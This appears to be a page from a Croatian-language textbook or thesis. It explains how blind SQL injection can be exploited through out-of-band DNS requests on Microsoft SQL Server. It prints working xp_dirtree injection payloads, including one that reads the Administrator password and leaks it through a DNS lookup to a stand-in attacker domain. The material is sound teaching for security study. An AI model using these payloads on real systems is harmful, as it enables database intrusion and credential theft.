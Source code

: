 \documentclass[12pt, oneside, onecolumn]{book}
\begin{document}
{U danoj situaciji, često je moguće zloupotrijebiti slijepu SQLi ranjivost uzrokovanjem vankanalne mrežne komunikacije sa sustavom kojeg napadač kontrolira. Kao i prije, ovakvo ponašanje se može uvjetno uzrokovati kako bi se informacije dohvaćale dio po dio. Međutim, postoji mogućnost izvlačenja podataka direktno iz mrežne komunikacije.

Za ovu svrhu se mogu iskoristiti razni mrežni protokoli, od kojih je najučinkovitiji DNS. Razlog toga je što veliki broj komercijalnih mreža dopušta slobodan prolaz DNS upita, jer su oni od osnovne važnosti za normalan rad tih sustava.

Tehnika kojima je moguće uzrokovati DNS upit su usko vezane za tip baze podataka koji se koristi. Kod Microsoft SQL Serveru, naredba kojom se uzrokuje DNS upit na specifičnu domenu ima sljedeći oblik:

\begin{verbatim}
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
\end{verbatim}

Ova naredba će uzrokovati bazu podataka da izvrši DNS upit za domenu \texttt{0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net}

Izvlačenje podataka iz baze se obavlja korištenjem sljedeće naredbe:

\begin{verbatim}
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.attackerdomain.net/a"')--
\end{verbatim}

Ova naredba čita lozinku korisnika \texttt{Administrator}, koja se nadodaje na domenu koju kontrolira napadač, \texttt{attackerdomain}, te se uzrokuje DNS upit. Ovo će rezultirati sljedećim upitom iz kojeg je moguće pročitati lozinku biranog korisnika:

\begin{verbatim}
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.attackerdomain.net
\end{verbatim}

Vankanalne (OAST) tehnike su veoma efektivan način pronalaženja i zloupotrebljavanja slijepih SQLi ranjivost, zbog njihove visoke vjerojatnosti uspjeha i sposobnosti da direktno izvlače podatke iz baze. Iz ovog razloga, OAST tehnike su korištene i u situacijama kada se neke od navedenih tehnika mogu izvesti.

}
\end{document}
